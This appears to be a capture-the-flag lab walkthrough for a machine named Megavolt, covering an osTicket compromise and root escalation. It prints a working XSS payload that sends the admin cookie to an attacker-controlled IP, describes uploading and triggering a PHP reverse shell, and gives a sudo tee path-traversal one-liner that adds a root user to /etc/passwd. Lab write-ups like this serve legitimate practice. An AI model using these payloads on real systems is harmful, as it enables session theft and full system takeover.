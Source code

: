 # Megavolt

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.183.115
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 13:29 +08
Nmap scan report for 192.168.183.115
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE  SERVICE
22/tcp open   ssh
80/tcp open   http
```

We can start proxying traffic through Burp.&#x20;

### OSTicket --> XSS Admin Cookie

Port 80 hosted an OSTicket instance, which has a lot of vulnerabilities and exploits:

<figure><img src="../../../.gitbook/assets/image (98) (8).png" alt=""><figcaption></figcaption></figure>

I  registered a new user and opened a ticket. When I viewed the status, it seems that an 'Alfred Smith' closes the tickets:

<figure><img src="../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

This confirms that a user is indeed viewing the tickets, and we can try to use an XSS exploit for it. The file upload function is vulnerable to an XSS exploit:

{% embed url="https://www.exploit-db.com/exploits/47224" %}

We can upload this HTML file to steal the administrator's cookie:

{% code overflow="wrap" %}
```markup
<script>new Image().src='http://192.168.45.208/?cookie=' + encodeURI(document.cookie);</script>
```
{% endcode %}

As soon as we upload the file and submit a new ticket, we get this on a listener port:

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

Using this cookie, we can then login to OSTicket at `/scp` by changing our cookie within Burp:

<figure><img src="../../../.gitbook/assets/image (25) (1) (1).png" alt=""><figcaption></figcaption></figure>

### OSTicket RCE

Within the settings of the Admin Panel, we can find the version of OSTicket running:

<figure><img src="../../../.gitbook/assets/image (19) (9).png" alt=""><figcaption></figcaption></figure>

This version is vulnerable to an RCE exploit. To exploit it, we first need to enable the plugin that stores attachments within the file system of the machine:

<figure><img src="../../../.gitbook/assets/image (9) (2) (3).png" alt=""><figcaption></figcaption></figure>

Afterwards, in the settings, make sure to change the Attachment settings:

<figure><img src="../../../.gitbook/assets/image (31) (1).png" alt=""><figcaption></figcaption></figure>

Then, we need to open a new ticket and upload a PHP reverse shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

View the ticket from the Administrator account:

<figure><img src="../../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

If we click on the attachment, it would generate a GET request to the `file.php` file with a key:

<figure><img src="../../../.gitbook/assets/image (88) (4).png" alt=""><figcaption></figcaption></figure>

This is the URL key, and we need one more key which is the File key. This can be generated by doing the following:

```
$ php -a 
Interactive shell

php > $sha1 = base64_encode(sha1_file('shell.php', true));
php > print(str_replace(array('=','+','/'), array('','-','_'), $sha1));
Y2_qPxdA2XMAeDyyloBdYykx9uE
```

Then, we can finally use this repository's script to trigger the shell:

{% embed url="https://github.com/Und3r-r00t/osticket-shell" %}

The exploit took me quite a few times before it worked. If it doesn't work, upload your shell with a different name. In my case, `shell.php` worked.&#x20;

<figure><img src="../../../.gitbook/assets/image (17) (2) (4).png" alt=""><figcaption></figcaption></figure>

The script would brute force every possible directory that the PHP shell is in before executing it:

<figure><img src="../../../.gitbook/assets/image (27) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Tee + Wildcard --> Root

We can check our `sudo` privileges on the machine:

```
bash-4.2$ sudo -l 
Matching Defaults entries for apache on megavolt:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User apache may run the following commands on megavolt:
    (ALL) NOPASSWD: /usr/bin/tee /var/log/httpd/*
```

Because there's a wildcard there, we can basically run `tee` to write to any file we want. First, generate a new password hash:

```
$ openssl passwd -1 hello123
$1$/l2LqOov$SE/j5UXGMIShXVQVjiEjJ.
```

Then, write this to the `/etc/passwd` file using this one-liner:

{% code overflow="wrap" %}
```bash
(cat /etc/passwd && echo 'innocent:$1$/l2LqOov$SE/j5UXGMIShXVQVjiEjJ.:0::/root:/bin/sh') | sudo tee /var/log/httpd/../../../../../../etc/passwd
```
{% endcode %}

This would add our new entry into the `/etc/passwd` file and we can `su` to become `root`:

<figure><img src="../../../.gitbook/assets/image (12) (1) (9).png" alt=""><figcaption></figcaption></figure>

Rooted!
